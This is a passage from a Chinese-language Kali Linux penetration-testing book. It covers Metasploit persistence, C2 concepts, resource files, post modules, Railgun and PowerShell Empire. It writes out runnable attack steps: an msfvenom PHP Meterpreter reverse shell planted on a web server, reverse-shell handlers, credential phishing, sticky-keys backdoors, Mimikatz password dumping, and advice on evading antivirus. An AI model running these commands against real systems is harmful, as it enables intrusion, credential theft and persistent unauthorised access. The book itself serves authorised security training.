我们也可以通过在 Metasploit 中启动监听（你可能需要再次重启 Windows 来重置 Netcat）：

> back
> use exploit/multi/handler
> set payload windows/shell_bind_tcp
> set RHOST <Target IP Address>
> set LPORT <Port>
> exploit


再次，最新的杀毒软件会拦截 Windows Netcat 程序，所以我把创建绕过 shell 留给读者。

### 启用远程桌面 (Enabling Remote Desktop)

另一个选项是启用远程桌面。

有一个模块可以实现这一点：

> Windows Manage Enable Remote Desktop - post/windows/manage/enable_rdp


我遇到的唯一问题是它不会自动添加新用户，但通过现有用户或手动创建用户很容易解决。

### 在 Web 服务器上维持访问 (Maintaining Access on a Webserver)

正如我们在 Msfvenom 章节中所过的，我们可以使用 Meterpreter 的 PHP shell 在 Web 服务器上维持访问权限。

13. 使用 `msfvenom` 创建一个 PHP 文件，输入 `msfvenom -p php/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 raw > evilphp.php`


对于 Payload，我们选择了基于 PHP 的 Meterpreter 反向 shell。我们设置了 Kali 系统的 IP 地址、想要使用的端口并将输出设置为原始格式。这创建了我们的 PHP shellcode 文件。现在将 evil.php 文件复制到我们的易漏洞网站（我们将在 Web 渗透测试章节详细介绍这一点）。

14. 启动监听服务：


15. 访问易漏洞网站，并在 Kali 浏览器中执行 PHP 命令：


16. 我们获得了一个 shell：


### Metasploit 传输层 (Metasploit Transports)

虽然在技术上不属于持久化技术，但“传输”（transports）是 Metasploit 的一个可以增加连接韧性的功能。传输允许你设置多个不同类型的 Payload。一旦设置好，你就可以在命令之间进行切换。此外，如果与某个 Payload 的连接失败，它将自动切换到下一个 Payload，确保连接的连续性。传输是从活动的 meterpreter 会话添加的。

要查看可用选项，只需输入 `transport`：


可用的 Payload 有：

> bind_tcp
> reverse_tcp
> reverse_http
> reverse_https

基本上，你使用 `add` 关将 Payload 设置为传输，然后根据需要添加额外的。然后你可以通过 `transport next` 和 `transport prev` 命令在传输层之间移动。

> transport add -t [payload] -l [lhost] -p [port]


要查看所有运行中的传输，使用 `list` 命令：


就是这样，如果我们的第一个连接发生什么，Metasploit 将自动切换到下一个。

### 结论 (Conclusion)

在本节中，我们涵盖了在 Kali Linux 中创建持久化的不同方法。正如之前提到的，很多时候你只需要添加一个用户或服务，这有些微不足道。但如果你需要创建一个后门，Kali 提供了多种选项来创建你完全需要的内容。

第九部分 - 命令与控制 (Command and Control)

## 第 34 章

命令与控制简介 (An Introduction to Command & Control)


本章节将介绍命令与控制（C2）。我们将从 Kali Linux 自带的 Metasploit 开始，然后介绍 C2 领域的其他选项。长期久以来，Metasploit 一直是首选的 C2 工具。多年来，随着反病毒软件和安全公司对其检测能力的不断提升，许多渗透测试员（Pentesters）和红队（Red Teams）开始寻找其他解决方案。因此，许多不同的 C2 工具应运而生，它们使用不同的语言编写并具备不同的功能。这为安全测试人员在选择 C2 时提供了更多选择。我一直倾向于使用 Kali 自带的工具，但这次我将介绍几个未包含在 Kali 内的 C2，也包括一个仅限购买的工具。虽然我们在书中会深入讨论 Metasploit，但对于其他选定的 C2，我们仅介绍其安装和基本用法。这样，如果你决定尝试其他 C2（这始终是一个不错的选择），你就可以快速上手并运行。

## C2 内部构造

无论你选择哪种 C2，其整体功能大大相同。C2 通常由至少 4 个部分组成：

* `Listener`（监听器）
* `Stager`（暂存器）
* `Session`（会话）
* `Modules`（模块）

你创建一个 `Listener`，它基本上是一个回调服务或服务器，用于监听来自目标机器的接入连接。接下来，你需要一个 `Stager` 或载荷（payload），这基本上是需要在目标机器上运行的利用代码。一旦载荷在目标机器上运行，代码就会回连到监听服务器并创建一个 `Session` 或远程 shell。然后你可以与每个单独的会话（可能有多个会话）进行交互，这通常包括使用终端命令和运行 `Modules`。模块是执行自动化任务的微型脚本。

## C2 战术、技术与过程 (TTP)

攻击者使用的攻击进展或 TTP¹ 可能有细微差别，但在很大程度上是非常一致的。一旦他们在目标网络中获得远程立足点，他们通常会想要执行某种持久化技术，然后是权限提升。攻击者将分析本地系统中可能已经存在哪些凭据，或者可能将连接升级到具有更高权限的账户。他们还可能通过令牌伪装（Token impersonation）或操纵来切换用户。

获取高权限 shell 后，攻击者会寻求对系统的进一步控制。一个常用的模块是 `Mimikatz`，用于从目标中提取密码哈希值和可能的明文密码。恢复的哈希值随后需要被破解，或者可能用于 `pass the hash`（哈希传递）种的攻击。在获取其他凭据后，攻击者通常尝试通过网络发现和横向移动进一步扩展网络。一旦访问并攻破了新机器，该过程就会重复。最后，攻击者会尽可能隐蔽地收集并外泄数据，并擦除入侵的痕迹或证据。

大多数 C2 的界面允许测试人员同时对许多台机器运行模块以进行批量测试。每个 C2 都有帮助完成攻击过程每个阶段的模块或脚本。有时这些完全是完全自定义编写的脚本，而另一些它们是运行他人创建的流行工具的脚本。模块的响应、成功结果以及任何数据都会由 C2 显示并存储。

## C2 绕过反病毒与隐蔽通信

我在写书期间测试的每一个基础 C2 载荷都被我实验室系统上的反病毒软件拦截了。这就是为什么每个 C2 都具有修改载荷代码的能力，或者使用完全不同的载荷。教授代码编程超出了本书的范围，但很多时候，更改变量名或变量格式就能使其再次绕过 AV（反病毒软件）。有时是因为检测到了载荷所使用的函数，因此将代码切换到使用类似的函数效果非常好。正如 Cobalt Strike 官方训练材料中提到的，有时只需将变量格式从类似“0”改为“0x0”就能解决问题²。

C2 的另一个优点是具有隐蔽通信的能力。大多数 C2 都为你提供了许多通信选项，包括 HTTPS、SMB 和 DNS。记住，目标是让你的 C2 流量融入正常流量——这能更好地模拟更高级的攻击者。这些功能在工具的 wiki 中有详细记录，因此再次，这只是对基本安装和用法的概述。我强烈建议读者在尝试使用它们之前，彻底研究 C2 的文档。

渗透测试员和红队会研究目标环境，并确定哪些操作系统、语言、协议、漏洞及外泄技术最有效——然后选择一个符合他们需求的 C2。C2 矩阵（`thec2matrix.com`）³为此任务提供了巨大的帮助。该网站通过表格列出了所有流行和即将推出的 C2，并列出了协议和功能。它还包含一个“如何安装”链接，涵盖了许多 C2 的安装⁴。


C2 Matrix - [`www.thec2matrix.com/matrix`](https://www.thec2matrix.com/matrix)

当我们研究一些流行的 C2 时，也要记住它们的功能对于某些专业安全测试人员来说还不够，因此他们会自定义自己的工具。要么深度修改现有的 C2 以“随其所用”，要么从零完全编写自己的。

SANS Slingshot C2 矩阵版 - 目前 Kali Linux 默认仅安装了 Metasploit 和 Empire C2。更多工具正在申请添加。如果你是 C2 世界的初学者，对从何处开始感到畏惧，或者是一个老师并想要一个可以快速部署的 C2 训练框架，请尝试 SANS Slingshot C2 矩阵版⁵。它是一个预装了多个 C2 等待使用的 Ubuntu 虚拟机。


在 Slingshot 中有 8 个 C2 预装并就绪。每个 C2 的方法包含在“如何使用 Slingshot”页面中。你不需要安装它们，它们已安装在最新版本中，使用 `run` 命令即可。


有一个 Kali 请求⁷将 10+ 个 C2 添加到 Kali 发行版中的“红队”元包。如果出版时还没有，可能很快就会有。

介绍完毕，让我们动手吧！

## 资源与参考文献

1. > `ATT&CK Matrix` - [`attack.mitre.org/`](https://attack.mitre.org/)
2. > `Cobalt Strike Training` - https://www.cobaltstrike.com/training/
3. > `The C2 Matrix` - [`www.thec2matrix.com/matrix`](https://www.thec2matrix.com/matrix)
4. > `How To, The C2 Matrix` - [`howto.thec2matrix.com/`](https://howto.thec2matrix.com/)
5. > `SANS Slingshot C2 Matrix Edition` - [`howto.thec2matrix.com/slingshot-c2-matrix-edition`](https://howto.thec2matrix.com/slingshot-c2-matrix-edition)
6. > `Slingshot Linux Distribution Download` - [`www.sans.org/slingshot-vmware-linux/download`](https://www.sans.org/slingshot-vmware-linux/download)
7. > `Kali Linux Bug Tracker, C2 Feature Request` - [`bugs.kali.org/view.php?id=6093`](https://bugs.kali.org/view.php?id=6093)

# 第 35 章：Metasploit 文件

基础 Metasploit 用法在《使用 Kali 进行基础安全测试》书中有详细介绍。我们已经讨论过如何使用 Metasploit，现在我想介绍 Metasploit 一些不为人知的功能。在本章中，我们将讨论 Metasploit 文件。我们在下一章将讨论 Metasploit 后置模块与 Railgun。

Metasploit - Resource Files


资源文件（Resource Files）是编写 Metasploit 命令的一种极佳方法。当你经常使用 Metasploit 时，你会发现自己一直在重复输入相同的命令。资源文件通过将你经常输入的命令存储到文件中，为你节省了大量时间。当使用 `Resource` 命令执行该文件时，指令会自动重新输入，就像你手动输入过的一样。你还可以包含 Ruby 脚本来完成一些神奇的操作。

在 `/usr/share/metasploit-framework/scripts/resource` 目录下预装了几个资源文件：


我们将在几分钟后查看这些文件。但首先，让我们看看如何创建我们自己的资源文件。

## Metasploit 资源文件 - 创建你自己的

我们可以在 Metasploit Framework 内部非常快速且方便地创建资源文件。基本上，我们做的就是启动一个新的 Metasploit 实例，输入一些命令，然后使用 `makerc` 文件保存输入的命令。让我们创建一个简单的 Web Delivery 反向 Shell（Web Delivery Reverse Shell）资源文件。

1. 在终端中运行 `sudo msfconsole`，或者从 Kali 主菜单中选择“08 - Exploitation Tools> Metasploit Framework”。
2. 输入你想用于 RC 文件的命令：
   - ➢ `use exploit/multi/script/web_delivery`
   - ➢ `set LHOST [Kali IP Address]`
   - ➢ `set LPORT 4444`
   - ➢ `set target 2`
   - ➢ `set payload windows/x64/meterpreter/reverse_tcp`

你可以在末尾添加 `exploit -j`，但我倾向于手动输入它。


现在运行 `makerc WD64reverse.rc`，这将保存我们输入的每一个命令并将其保存到指定的范围内：


如果我们查看该文件，就可以看到我们输入的所有命令：


现在，我们可以通过输入 `resource [filename]` 随时运行这个资源文件了：


记录一下，这些命令并不非得是 exploit（利用）命令。你可以输入任何你重复命令并将其保存为资源文件。如果你频繁使用 Metasploit 执行多个任务，这可以为你节省大量时间。当你已经在 Metasploit 中输入了 exploit 命令或后 exploit 命令并想保存以便以后使用时，`makerc` 命令非常有帮助。当然，你不需要使用 `makerc` 从头开始创建资源文件。你可以使用文本编辑器手动向其中输入命令，然后以 `.rc` 扩展名保存即可。

## 从命令行启动资源脚本

有两种方法可以在 Metasploit 启动时自动运行资源文件。

1. 一种是创建一个资源文件，将其命名为 `msfconsole.rc` 并将其存储在 `.msf4` 目录：
   - ➢ `~/.msf4/msfconsole.rc`

然后正常启动 Metasploit，这个特定的 RC 文件将在启动时自动运行。
2. 你也可以从命令行启动资源命令。通过只需在 `msfconsole` 之后包含 `-r [resource file]` 选项，就可以任何脚本在 Metasploit 启动时立即运行。

因此，根据我们上面的示例，命令将是：
- ➢ `sudo msfconsole -r WD64reverse.rc`

这会导致 Metasploit 启动并立即运行 `WD64reverse.rc` 文件：


就是这样！在 Metasploit 中创建和使用资源文件非常简单。但不止于此，我们可以通过结合 Ruby 脚本来增加它们的实用性。让我们来看看一些包含此类内置资源文件，但首先我们需要介绍 Metasploit 的全局变量（Global Variables）。

## Metasploit - 全局变量

全局变量是 Metasploit 中的特殊变量，它们在你的会话中保持不变。有特定的命令用于这些设置：

- ➢ `set` - 显示当前设置的变量
- ➢ `setg` - 设置变量
- ➢ `get` - 显示单个变量的设置
- ➢ `unsetg` - 删除变量的设置
- ➢ `save` - 保存你的变量以便在下次启动 Metasploit 时使用

因此，只需输入 `set` 即可查看 Metasploit 中所有设置的变量：


要设置全局变量，请使用 `setg` 配合变量名和设置值：
- ➢ `setg RHOSTS 172.24.1.233`

然后你可以用 `set` 或 `get` 命令查看它：


使用 `unsetg` 配合变量名可以删除全局变量。当你完成这些操作后，你会希望取消这些全局变量，以免它们干扰你未来的会话。


当然，如果你想保存变量以便在下次启动 Metasploit 时使用，可以使用 `save` 命令。虽然我们在这本书中不再介绍更多的 Metasploit 数据库命令，但你可以在 Meterpreter 中创建单独的工作空间（workspaces）来保持内容独立且更有组织：


## 预装资源文件与 Ruby 集成

现在我们已经涵盖了全局变量，让我们花时间查看位于 `/usr/share/metasploit-framework/scripts/resource` 目录的一些内置资源文件脚本。


我们将从查看 `portscan.rc` 模块开始。执行时，该模块将针对全局变量 `RHOSTS` 中设置的目标运行端口扫描。查看文件可以发现，该资源脚本有一个简短的介绍，文件的其余部分基本上是一个 Ruby 脚本。


注意开头的 `<Ruby>` 标签和结束的 `</Ruby>` 标签。这些标签之间的所有内容都是 Ruby 脚本。你只需要像下面所示在这些标签之间输入代码，就可以在任何资源文件中使用 Ruby 编程：


在资源文件中使用 Ruby 的强大之处在于调用 Metasploit 的设置和变量，并与远程系统进行交互。阅读 Portscan 文件。你会发现该脚本从 `RHOSTS` 和 `VERBOSE` 变量中提取信息，并在整个脚本中使用它们。

## Metasploit - 运行中的资源文件

让我们看看这个资源文件的运行情况。首先检查全局设置查看是否已经设置了内容，然后设置 (`setg`) 全局变量 `RHOST` 为我们的目标 IP 地址。让我们使用 Metasitable2 作为目标。


现在使用 `resource` 命令运行 `portscan.rc` 文件：


这将返回端口扫描结果，揭示哪些端口是开放的、这些端口上运行着哪些服务以及操作系统检测结果：


输入 `notes` 命令将列出我们目标的一些细节：


`services` 将显示服务信息：


如果我们想对目标进行自动扫描以获取比 `portscan.rc` 更多的信息，可以使用 `basic_discovery.rc`。该模块的相似之处在于它会对目标运行端口扫描并使用全局变量 `RHOSTS` & `VERBOSE`，但运行了更多的端口和漏洞扫描。

让我们针对我们的 2019 Server 尝试一下。

- ➢ `setg verbose true`
- ➢ `setg RHOSTS 172.24.1.109`


- ➢ `resource basic_discovery.rc`

在运行该模块后，如果你运行 `services`（或 `notes`）命令，你会在数据库中发现针对新目标的额外部分。


就是这样！在 Metasploit 中创建和使用资源文件非常简单。但不止于此，我们可以通过结合 Ruby 脚本来增加它们的实用性。让我们来看看一些包含此类内置资源文件，但首先我们需要介绍 Metasploit 的全局变量。

## 结论

在本节中，我们学习了 Metasploit 中使用的资源文件。我们看到了创建自己的资源文件是多么简单，并查看了 Metasploit 自带的资源文件。当你在阅读这本书时，如果你发现自己一直在重复输入相同的命令，尝试创建一个 RC 脚本来节省一些时间！

## 资源与参考文献

- ➢ Metasploit Unleashed - [`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/)


> ➢ 命令 - [`www.offensive-security.com/metasploit-unleashed/using-databases/`](https://www.offensive-security.com/metasploit-unleashed/using-databases/)

# 第 36 章：Metasploit Post 模块与 Railgun

在本章，我们将介绍 `Meterpreter` 的 Post 模块。Post 模块是非常实用的附加 Ruby 脚本，可以在获取远程 shell 后运行。这些微程序自动化了许多后渗透利用过程，使得操纵受侵害的系统来恢复数据甚至账户凭据变得非常简单。例如，一旦你有了活跃的 shell，只需运行一个 post 浏览器脚本，就可以从用户的网络浏览器中提取数据。

通过 `Railgun`，这些脚本变得更加强大。`Railgun` 极大地扩展了 `Meterpreter`，允许你加载 DLL 并针对系统远程调用 Windows 函数。通过这种方式，这几乎为我们提供了一个完整的 Windows API 攻击平台，允许我们执行一些惊人的操作，例如使用被攻击的机器解密存储的密码，或获取目标网络的信息。

让我们从 Post 模块开始。

## Post 模块

Post 模块位于 `/usr/share/metasploit-framework/modules/post`。该目录包含多个平台的攻击脚本子目录，包括：

> ➢ Android
> ➢ Firefox
> ➢ Linux
> ➢ OSx
> ➢ Windows

这些目录被进一步分为 `gather`（收集）或 `manage`（管理）等额外的子目录。进入这些目录找到实际的 post 模块。在每个厂商名称下，你会找到以功能名称命名的模块。还有一个 `Multi` 目录，它包含了多种模块的混合，这些模块再次被分为 `gather` 和 `manage` 等额外的子目录。观察一下目录结构并熟悉这些 post 脚本。如果你愿意，可以查看单个 ruby 文件以了解它们的工作原理。我们可以在 `Meterpreter` 中使用任何相对 Post 模块在渗透渗透后从受害者系统中提取信息。

## Meterpreter - 使用 Post 模块

Post 模块是 Metasploit 的核心内容。有许多 post 模块用于侦察、收集系统信息或凭据、创建用户、持久化等。在所有操作系统平台上，提供了超过 370 多个 post 模块。你可以通过输入 `search post/` 在 Metasploit 中查看所有可用模块。


使用 `search` 的一个很好的特性是它为每个搜索结果创建了一个 ID 号。你可以通过名称使用模块，也可以通过执行搜索时返回的 ID 号使用。

如下所示：


你可以缩小搜索范围；例如你只想查看 Windows 的 gather post 模块：


从活跃会话开始，你只需要在 MSF6 提示符下（如果你在 meterpreter 提示符下，只需输入 `background`）输入 `use [post module name]`。然后你可以输入 `Show Options` 查看可用选项。接着使用 `set` 命令设置任何必要的变量。

让我们一起用 Windows 10 目标演练一遍。

在具有活跃会话的 MSF6 提示符下：

> ➢ `search youtube`
> ➢ `use 6 (post/multi/manage/play_youtube)`
> ➢ `set VID dQw4w9WgXcQ`
> ➢ `set session #`
> ➢ `run`


在 Windows 目标上我们应该看到：


被 Rick Roll 了！

好吧，这很有趣，但我们可能应该做些更有用的事情。有时，需要知道你成功利用的远程机器是虚拟机还是独立系统。我们可以使用 `checkvm` 模块来验证此信息。

在 Metasploit 中，与我们的 Windows 2019 Server VM 建立活跃会话后：

> ➢ `info post/multi/gather/checkvm`


让我们运行命令检查 Windows Server 是否为虚拟机。

> ➢ `use post/windows/gather/checkvm`
> ➢ `set SESSION -1`


“这是一个 VMware 虚拟机”

我们可以在活跃会话中运行该模块，而不需要设置会话号。此外注意到我为 session 使用了 `-1`。这是 `Meterpreter` 的新功能，意味着“上一个打开的会话”。如果你想在创建的最新会话上运行命令，但你有多个会话，这就会非常有用。你可以使用 `back` 命令返回到 msf6 提示符。

有很多凭据收集模块。


当然，你也可以一直提示用户为你输入他们的凭据。

> ➢ `use post/windows/gather/phish_windows_credentials`
> ➢ `set session #`
> ➢ `run`


如果你愿意，你也可以自动化截图。

> ➢ `use post/windows/gather/screen_spy`
> ➢ `show options`


然后只需设置会话号并运行即可。Kali 会自动在 5 秒内拍摄 6 张截图。然后它将它们存储在 `.msf4/loot` 目录。


## 其他有趣的模块

`post/windows/manage` 包含了多个用于持久化的 post 模块。


只需使用你需要的 post 模块，你可以输入 `show info` 获取更多关于该模块的信息。


如果你对系统拥有物理访问权限，这个模块是一个很好的持久化模块。它允许你在连续按下“shift 键”5 次时随时弹出系统级 shell。这甚至包括登录界面。

使用该利用非常简单。

> ➢ `use post/windows/manage/sticky_keys`
> ➢ `Set SESSION 1`
> ➢ `run`


现在，在 Windows 目标上，连续点击 5 次 shift 键，就会弹出一个 Windows 系统提示符！


这是默认攻击模式，你可以将其更改为任何模式，通过更改 `TARGET` 变量可以使用其他粘滞攻击（UTILMAN、OSK 等）。基本上，这个模块所做的是将系统文件（sethc.exe 或 utilman.exe）重命名为 `cmd.exe` 的副本。要移除并恢复正常操作，只需使用 `remove` 命令


你也可以通过 Linux 磁盘启动 Windows 系统并手动交换文件来完成同样的操作。我在企业 IT 工作期间曾多次使用这种技术访问无人无人密码的旧 Windows 服务器。有趣的是，这个 Metasploit post 模块似乎无法用于 Windows 11，尽管手动方法仍然有效。

## Post 模块总结

我们只涵盖了少数 post 模块，可用模块非常多。花时间浏览一下 post 目录。我确信你会发现一些感兴趣的模块。当你发现喜欢的模块时，阅读代码本身以了解它是如何工作的。阅读脚本以了解它们如何运作非常有帮助。所有脚本都使用 Ruby 编写的优势在于它们可以方便地查看并在需要时进行修改。此外，偶尔你可能会运行一个运行得并不完美的脚本，可能需要进行微调。

## Metasploit - IRB Railgun

`Railgun` 允许你跳出预定义攻击，允许你在远程利用中使用 Windows API 的威力。它是通过允许我们加载 DLL 并针对目标远程调用 Windows 函数来实现的。我们将简要介绍 `Railgun`。如果你已经熟悉 Ruby，你可能会喜欢 `Railgun`。但资深 Windows 用户可能会发现使用 PowerShell 来完成他们在微软系统上需要的操作更容易。

> *注意：`Railgun` 在 Kali 中最新版本的 Metasploit 中无法运行，因此这些指令来自最后一个已知的可用版本。我相信该问题很快就会得到解决。*

Railgun 定义位置：


`/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`

## Railgun 使用方法

Railgun 的用法由上述 Kali 目录下的定义文件夹定义。观察这些名称，你会发现它们与标准的 Windows DLL 文件直接对应：


`def_Kernel32.rb` 文件对应 Windows 的 `Kernel32` DLL；`def_user32.rb` 对应 `User32` DLL，以此此类推。在每个 DLL 定义文件中，包含了函数定义，允许你在 Railgun 中使用这些函数。听起来很困惑对吧？

让我们仔细观察一下。

如果我们查看 `def_user32.rb` 文件，可能会更有意义一些：


每个函数都按名称列出，并包含了每个函数所需的变量。它们从哪里获取这些变量信息呢？这些定义直接来自微软 MSDN 的函数列表。

例如，这里是 Message Box（消息框）的 MSDN 列表：


[`msdn.microsoft.com/en-us/library/windows/desktop/ms645505%28v=vs.85%29.aspx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms645505%28v=vs.85%29.aspx)

觉得熟悉吗？Railgun 中的定义与 DLL 函数的要求完全匹配，这使得 Railgun 在受害者机器上的使用是无缝的。Railgun 提供了为 DLL 经过正确格式化的合法函数调用，Windows 系统的响应就像是本地程序发起的请求一样。如果你继续阅读每个函数的 MSDN 网页，你将看到每个变量代表什么，以及为每个变量应该输入什么类型的信息。你只需要使用 MSDN 页面提供的信息来填充 Railgun 中的函数调用即可。这可能仍然有一点困惑，所以让我们来看实际操作。

从现有的 Meterpreter 会话连接到我们的 Windows 2019 服务器虚拟机：

> ➢ 输入 “irb” 来打开交互式 Ruby 壳（Interactive Ruby Shell）


注意提示符变为了 “>>”。我们输入的任何 Ruby 命令都将在 Windows 系统上执行。让我们使用上面讨论的函数在 Windows 系统上创建一个弹出消息框。

在 IRB 提示符下，输入以下命令：

```
client.railgun.user32.MessageBoxA(0,"Little Bo Peep Lost Her Sheep!","System Error","MB_ABORTRETRYIGNORE")
```

如图所示：


输入命令后，它将等待 Windows 系统的响应以完成。


在 Windows 系统上，我们看到了消息：“Little Bo Peep Lost Her Sheep!”（小羊波丢失了她的羊！）——噢不！

虽然从安全测试人员的角度来看这没什么意义（除非你想让目标知道你在那里），但它是 Railgun 在 Metasploit 中如何工作的一个简单示例。如果我们分析该命令，就能看到每个变量是如何运作的。来自 MSDN 页面的定义告诉我们：

> ➢  `hWnd` [in, optional] = 输入，为 `NULL` 或 “0”
> ➢  `lpText` [in, optional] = 要显示的消息
> ➢  `lpCaption` [in, optional] = 对话框标题
> ➢  `uType` [in] = 与预定义按钮相关的参数

所以，在我们的示例中：


在目标机器上创建了这个弹出框：


因此，本质上该过程是：查找你想使用的 Windows DLL 函数。然后从定义文件中找到对应的 Railgun 函数，最后创建 IRB 命令。并不是所有的函数（或 DLL）都包含在 Ruby 定义文件中。它们可以手动添加，但根据我的个人经验和选择，我通常只使用已经在使用 railgun 的现有后渗透模块（post module），或者使用 PowerShell 而不是尝试添加新的 Ruby 定义。

## 结论

在本节中，我们查看了如何使用 Post 模块执行后渗透渗透。我们还快速查看了如何使用 Railgun 与 Windows DLL 函数进行交互。这只是对 Metasploit 的简要概述，因为我们已经在我的基础书中详细介绍了它，并在书中一直使用它。关于 Metasploit 的更多信息，请查看 Offensive Security 网站上的详尽文档，链接在下方的资源中。在下一节中，我们将查看如何使用 PowerShell 进行后渗透。

## 资源与参考文献

> ➢  Metasploit Unleashed - https://www.offensive-security.com/metasploit-unleashed/
> ➢  Windows Post Gather Modules - [`www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/`](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/)
> ➢  Linux Post Gather Modules - [`www.offensive-security.com/metasploit-unleashed/linux-post-gather-modules/`](https://www.offensive-security.com/metasploit-unleashed/linux-post-gather-modules/)
> ➢  OS Post Gather Modules - [`www.offensive-security.com/metasploit-unleashed/os-post-gather-modules/`](https://www.offensive-security.com/metasploit-unleashed/os-post-gather-modules/)
> ➢  How to use Railgun for Windows post exploitation - [`github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation`](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation)
> ➢  API Index for Desktop Windows Applications - [`docs.microsoft.com/en-us/windows/win32/apiindex/api-index-portal`](https://docs.microsoft.com/en-us/windows/win32/apiindex/api-index-portal)
> ➢  DEFCON 20 Maloney-railgun - [`www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf`](https://www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf)

# 第 37 章

## PowerShell Empire & StarKiller


工具 GitHub: [`github.com/BC-SECURITY/Empire`](https://github.com/BC-SECURITY/Empire)

原始 PowerShell Empire 已于 2019 年正式停止维护。从那时起，该项目由 BC Security 持续开发。今年 1 月，Kali 和 BC Security 宣布了业务合作伙伴，特殊版本的 Empire & StarKiller 现在已安装在 Kali 中。我们将查看如何使用 Empire 及其新的 StarKiller GUI。不要被 “PowerShell” 名字给欺骗了，Empire 不仅用于测试 Windows 系统。这里是活跃的 Mac、Linux 和 Windows Server 2016 “代理”或远程 shell 的截图：


该框架包含了适用于三个平台的模块，但关于模块的更多信息稍后介绍。

### 安装 PowerShell Empire & StarKiller

PowerShell Empire 是一个命令与控制（C2）框架。人们一直在努力在 Kali Linux 中安装更多的 C2，Empire 就是其中之一。大多数 C2 需要 64 位的 Kali Linux。此外，目前许多可用的 C2 还不树莓派 ARM 平台。如前，Empire 现在预装在 Kali Linux 中，但建议再次运行安装以更新到最新版本。

打开终端并输入：

> ➢ `sudo apt update`
> ➢ `sudo apt install -y powershell-empire starkiller`

如果你今年早些时候用过 PowerShell Empire 之后还没有尝试，用法已经发生了。它现在是两个组件：服务器和客户端。如果算上 StarKiller，实际上是三个。

### Empire C2 用法

首先，我们需要启动 Empire 服务器。它在后台运行，允许我们使用 Empire 命令行客户端以及 StarKiller GUI。

> ➢ `sudo powershell-empire server`


现在，我们需要启动客户端界面。

> ➢ 打开一个新终端窗口
> ➢ 输入 `sudo powershell-empire client`


我们现在准备好使用 Empire 了！

创建一个 Empire 监听器


要使用 Empire 以及大多数 C2，我们需要创建一个监听器服务（listener service）和一个加载器（stager）或漏洞负载（exploit payload）。当目标运行加载器时，我们将获得一个远程 shell（remote shell）或代理（agent）。这可能有点让人困惑，但在看到实际操作后，它会变得清晰。首先，我们需要创建一个监听器（Listener）。这基本上与 Metasploit 中的“multi/handler”监听器相同。它只是监听来自目标远程系统的回连连接。

> ➢ 在 Empire 窗口中，输入 `uselistener [空格]` 来列出所有可用的监听器


有多个可用的监听器，你可以向下滚动列表。我们将创建一个简单的 HTTP 监听器。

> ➢ 输入 `uselistener http`

随后我们会看到 HTTP 监听器的信息页面。


这显示了所有可以设置的值。你也可以输入 `info` 在稍后查看此屏幕。

> ➢ 你可能需要输入 `set Host [Kali IP Address]`，但它应该会自动设置

端口也会自动设置，但让我们使用端口 `5555`。我们以在 Metasploit 中完全的方式设置变量，使用 `set` 命令。尽管这里的变量是大小敏感的。

> ➢ `set Port 5555`

> ➢ 现在我们真的只需要这些了，现在输入 `execute`


## 创建 Empire 加载器与监听器

加载器（Stagers）是在目标系统上运行的漏洞代码或负载。Empire 中有很多加载器选项可用。

> ➢ 输入 `back`

> ➢ 输入 `usestager [空格]` 来列出所有可用的加载器。

向下滚动查看所有：


我们将目标设定为 Ubuntu Linux 系统，因此可以使用 `multi/bash`。此加载器可以在 Mac 或 Linux 上运行。

输入以下内容：

> ➢ `usestager multi/bash`

> ➢ `set Listener http`


> ➢ 最后，输入 `generate`


这是运行在目标系统上的漏洞代码。现在，在测试 Linux 系统上运行该漏洞代码，我们就有了一个远程 shell！


让我们快速回顾一下——基本上，我们创建了加载器并告诉它使用基于 bash shell 的漏洞代码。然后我们告诉加载器使用我们在上一步中创建的 http 监听器。最后，`generate` 命令创建了要在目标系统上运行的代码。

## Empire 远程 shell，即 Agents

在 Empire 中，通过远程 shell 进行的活动会话被称为代理（agents）。

> ➢ 输入 `agents` 查看可用代理

如所述，此加载器可以在 Mac 或 Linux 上运行。下面我们有一个指向完全更新的 Ubuntu 系统的远程会话。


输入 `interact [Name]` 与目标系统进行交互。输入 `help` 查看可用命令。


你可以在目标上运行你需要的任何命令或任何 empire 模块。或者，你可以输入 `shell` 打开一个类似终端的提示符。


Empire 模块只是在调用时运行的小型脚本或攻击工具。要查看所有可能的 Empire 模块列表，输入 `usemodule [空格]`。然后你可以向下移动列表。对于 Linux 机器，你可能想输入 `usemodule python/` 来跳过所有 Windows 模块。

> ➢ 例如，`usemodule python/privesc/linux/linux_priv_checker`

## Empire - 运行远程 shell 命令

你也可以也可以远程运行 shell 命令。例如，在 Ubuntu 目标上，你可以使用 `shell` 命令让它在本地运行 `calculator`。在远程机器上弹出计算器始终是被攻破的标志，哈哈！好吧，绝对不是，只是一个红队内部的笑话。它是一个你可以使用的被攻破证明——但大多数情况下，你运行运行其他的，嗯，更合适的命令。

从活动代理中，直接输入 `shell [command_name]`。

> ➢ `shell gnome-calculator`


> ➢ 输入 `exit` 退出 shell

你也可以输入 `back` 回到 Empire 提示符的上一级。

## Empire 对 Windows 目标

使用相同的监听器，我们可以创建一个 Windows 加载器。

> ➢ `usestager windows/launcher_bat`

> ➢ `set Listener http`

> ➢ `generate`


现在，在 Windows 目标上复制并运行代码。一旦你运行了代码，你就会获得一个远程 shell。让我们使用 Mimikatz 模块获取一些密码。好吧，如果它是较版本的 Windows 或 Windows Server，你可能无法获得明文密码。你将获得需要破解的密码哈希值。尽管如果你恰好目标是旧版本的 Windows，你将获得明文密码。以下是使用 Windows 版本 Metasploitable 3 的示例。我们没有涵盖它的安装，因为安装可能有点……嗯，我们这么说，安装可能很难。所以这只是作为阅读参考。

> ➢ 输入 `agents` 查看可用代理


> ➢ `Interact [agent number]`

> ➢ `usemodule credentials/mimikatz/logonpasswords`

> ➢ `execute`


我们得到了明文凭据！


> ➢ 输入 `back` 退出当前模块

> ➢ 现在，输入 `usemodule powershell/collection/screenshot`

> ➢ `execute`


我们得到了一个截图！

文件可以在 `/var/lib/powershell-empire/downloads/[Session_Name]` 目录下找到。


